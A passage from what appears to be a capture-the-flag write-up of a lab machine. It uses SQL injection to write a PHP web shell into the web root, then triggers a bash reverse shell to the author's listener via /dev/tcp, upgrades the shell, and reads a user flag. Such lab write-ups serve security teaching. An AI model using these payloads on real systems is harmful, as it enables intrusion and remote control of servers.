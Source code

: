 ```

> select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/0xdf.php'

```

It worked:

![image-20210913214546110](https://0xdfimages.gitlab.io/img/image-20210913214546110.png)

### Shell

To get a full shell, I’ll start `nc` on 443 and run:

```

oxdf@parrot$ curl 10.10.11.116/0xdf.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.60/443 0>&1"'

```

It hangs, but at `nc`:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.60] from (UNKNOWN) [10.10.11.116] 35078
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ 

```

And upgrade the shell using the `script` trick:

```

www-data@validation:/var/www/html$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@validation:/var/www/html$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo ; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@validation:/var/www/html$ 

```

In `/home/htb` I have access to `user.txt`:

```

www-data@validation:/home/htb$ cat user.txt
153f78a4************************

```
